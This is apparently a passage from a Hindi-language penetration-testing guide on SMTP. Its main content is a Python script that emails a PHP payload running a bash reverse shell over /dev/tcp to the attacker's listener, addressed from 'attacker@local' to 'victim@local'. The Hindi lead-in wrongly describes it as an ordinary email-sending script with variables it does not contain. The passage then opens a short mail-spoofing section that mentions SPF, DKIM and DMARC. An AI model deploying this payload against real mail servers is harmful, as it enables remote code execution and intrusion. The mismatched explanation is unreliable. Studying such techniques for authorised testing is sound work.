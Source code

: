 यहां `sender_email` और `receiver_email` को अपने वास्तविक ईमेल पते के साथ बदलें और `your_password` को अपने ईमेल खाते के पासवर्ड से बदलें। फिर आप इस स्क्रिप्ट को चला सकते हैं और ईमेल भेज सकते हैं।
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
## मेल स्पूफिंग

इस अध्याय का अधिकांश भाग पुस्तक **नेटवर्क सुरक्षा मूल्यांकन 3 वीं संस्करण** से निकाला गया है।

SMTP संदेश आसानी से स्पूफ किए जा सकते हैं, इसलिए संगठन **SPF**, **DKIM**, और **DMARC** सुविधाओं का उपयोग करते हैं ताकि पक्ष अनधिकृत ईमेल भेजने से रोक सकें।

इन प्रतिबंधों के **पूर्ण गाइड** के बारे में यहां जानकारी मिल सकती है: [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/)

